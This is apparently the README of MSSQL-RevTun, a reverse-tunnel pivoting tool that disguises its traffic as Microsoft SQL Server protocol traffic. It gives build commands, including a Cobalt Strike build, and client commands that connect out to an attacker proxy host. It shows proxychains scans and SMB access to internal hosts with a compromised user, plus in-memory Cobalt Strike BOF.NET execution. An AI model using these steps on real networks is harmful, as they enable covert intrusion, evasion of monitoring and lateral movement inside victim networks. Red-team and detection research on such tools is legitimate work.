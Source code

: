# MSSQL-RevTun

MSSQL-RevTun is a tool for network pivoting. It operates similar to chisel, ligolo and ssh tunneling. The main difference is that it uses the Microsoft SQL Server TDS protocol to make the network traffic look like MSSQL traffic.

It operates in 3 modes:
- **Server**: Listens on a port (1433 by default). Once it receives a client connection, it opens another port (1080 by default). Through the second port, we can use proxychains/tun2socks to forward all traffic though the client.
- **Client**: Connects to server or to the relay using authentic MSSQL authentication. Forwards all traffic from the server.
- **Relay**: Relays the traffic from the client to the server. Use case: the client cannot directly reach the external server but can reach the relay machine.

## Building

### Quick Build
```powershell
.\build-multi.ps1  # Builds .NET Framework 4.8, Linux x64, Windows x64
```

### Manual Builds
```bash
# Windows x64
dotnet publish -c Release -f net8.0 -r win-x64 --self-contained true -p:PublishSingleFile=true

# Linux x64  
dotnet publish -c Release -f net8.0 -r linux-x64 --self-contained true -p:PublishSingleFile=true

# Cobalt Strike (.NET Framework 4.8)
dotnet build -c Release -f net48 -p:Platform=AnyCPU

# Windows x64 optimized for minimal size (remove the net48 references from revtun.csproj before compiling this way)
dotnet publish -c Release -f net8.0 -r win-x64 --self-contained true -p:PublishSingleFile=true -p:EnableCompressionInSingleFile=true -p:PublishTrimmed=true
```

## Usage

### Server
```bash
./revtun server --password testpass
```

### Client 
```bash
./revtun client --host yourproxyserver.com --password testpass
```

### Relay (Traffic Forwarding)
```bash
./revtun relay --host yourproxyserver.com --debug
```

### Using SOCKS Proxy
```bash
proxychains nmap -sT 192.168.1.0/24
proxychains smbclient -U compromised_user //internal.fileserver/Share
```

## Cobalt Strike Integration

### execute-assembly (not opsec in default config)
```bash
# Client from internal network  
execute-assembly revtun.exe client --host [internal.compromised.host/yourproxyserver.com] --password testpass

# Relay on pivot host
execute-assembly revtun.exe relay --host [yourproxyserver.com] 
```

### BOF.NET (in memory execution without creating new processes)
#### Project
- Original: https://github.com/williamknows/BOF.NET
- Can run EXEs: https://github.com/williamknows/BOF.NET

#### Requirements
1. Build the BOF.NET DLL (requires .NET Framework 3.5 SP1): 
```
BOF.NET\managed\BOFNET.sln
```
2. Build object files. (instructions in github project)
3. Place all files in one folder:
```txt
bofnet.cna
BOFNET.dll
bofnet_execute.cpp.x86.obj
bofnet_execute.cpp.x64.obj
```
4. Import `bofnet.cna` into Cobalt Strike.

#### Run
```
# initialise BOF.NET
bofnet_init

# Load the .NET assembly
bofnet_load /path/to/revtun.exe

# (Optionally) list the loaded assemblies to check the name
bofnet_listassemblies

# Run the assembly. Note: the beacon will not call back after this.
bofnet_executeassembly revtun client -h yourproxyserver.com --password testpass
```

#### Reference
https://williamknowles.io/bofnet_executeassembly-native-in-process-execution-of-net-assemblies-in-cobalt-strike/

## Command Options
```
SERVER OPTIONS:
  --password <pass>          Password for authentication (REQUIRED)
  --port, -p <port>          MSSQL server port (default: 1433)
  --proxy-port <port>        Proxy listener port (default: 1080)
  --bind <address>           Bind address (default: 0.0.0.0)
  --verbose, -v              Enable verbose logging
  --require-encryption       Require TLS encryption for all connections
  --no-encryption            Disable TLS encryption support

CLIENT OPTIONS:
  --password <pass>          Password for authentication (REQUIRED)
  --host, -h <hostname>      Server hostname (default: localhost)
  --port, -p <port>          Server port (default: 1433)
  --username, -u <user>      SQL username (default: sa)
  --database, -d <db>        Database name (default: master)
  --auto-exit                Exit after connection test
  --verbose, -v              Enable verbose logging
  --debug                    Enable debug output (shows all messages)
  --encrypt                  Request TLS encryption (default: enabled)
  --no-encrypt               Disable TLS encryption
  --require-encryption       Require TLS encryption (fail if not supported)

RELAY OPTIONS:
  --port, -p <port>          Relay listener port (default: 1433)
  --bind <address>           Bind address (default: 0.0.0.0)
  --host, -h <hostname>      Target server hostname (default: localhost)
  --server-port <port>       Target server port (default: 1433)
  --verbose, -v              Enable verbose logging
  --debug                    Enable debug output (shows TDS packet details)
```
